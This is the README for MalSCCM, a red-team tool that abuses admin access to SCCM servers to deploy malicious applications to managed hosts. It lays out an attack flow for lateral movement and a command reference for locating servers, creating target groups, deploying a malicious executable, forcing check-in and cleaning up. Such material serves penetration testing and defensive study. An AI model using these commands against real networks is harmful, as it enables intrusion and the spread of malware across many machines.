 # MalSCCM

This tool allows you to abuse local or remote SCCM servers to deploy malicious applications to hosts they manage. To use this tool your current process must have admin rights over the SCCM server.

Typically deployments of SCCM will either have the management server and the primary server on the same host, in which case the host returned from the locate command can be used as the primary server.

If that is not the case you will need to compromise the management host returned with locate so that you can then run locate again on that host and get the primary server hostname. Once you have that and admin access you are good to go! 

# Blog

For more information on usage of the tool, refer to the blog below.

* https://labs.nettitude.com/blog/introducing-malsccm/

# Credits 

Massive credit to PowerSCCM (https://github.com/PowerShellMafia/PowerSCCM) which this is all based off, this would not have been done without the work of @harmj0y, @jaredcatkinson, @enigma0x3, @mattifestation. 

# Attack Flow 

* Compromise client, use locate to find management server 
* Compromise management server, use locate to find primary server
* use Inspect on primary server to view who you can target
* Create a new device group for the machines you want to laterally move too
* Add your targets into the new group 
* Create an application pointing to a malicious EXE on a world readable share 
* Deploy the application to the target group 
* Force the target group to checkin for updates 
* Profit...
* Cleanup the application and deployment
* Delete the group

# Help menu 

```
Commands listed below have optional parameters in <>. 

Attempt to find the SCCM management and primary servers:
    MalSCCM.exe locate

Inspect the primary server to gather SCCM information:
    MalSCCM.exe inspect </server:PrimarySiteHostname> </all /computers /deployments /groups /applications /forest /packages /primaryusers>

Create/Modify/Delete Groups to add targets in for deploying malicious apps. Groups can either be for devices or users:
    MalSCCM.exe group /create /groupname:example /grouptype:[user|device] </server:PrimarySiteHostname>
    MalSCCM.exe group /delete /groupname:example </server:PrimarySiteHostname>
    MalSCCM.exe group /addhost /groupname:example /host:examplehost </server:PrimarySiteHostname>
    MalSCCM.exe group /adduser /groupname:example /user:exampleuser </server:PrimarySiteHostname>

Create/Deploy/Delete malicious applications:
    MalSCCM.exe app /create /name:appname /uncpath:""\\unc\path"" </server:PrimarySiteHostname>
    MalSCCM.exe app /delete /name:appname </server:PrimarySiteHostname>
    MalSCCM.exe app /deploy /name:appname /groupname:example /assignmentname:example2 </server:PrimarySiteHostname>
    MalSCCM.exe app /deletedeploy /name:appname </server:PrimarySiteHostname>
    MalSCCM.exe app /cleanup /name:appname </server:PrimarySiteHostname>

Force devices of a group to checkin within a couple minutes:
    MalSCCM.exe checkin /groupname:example </server:PrimarySiteHostname>
```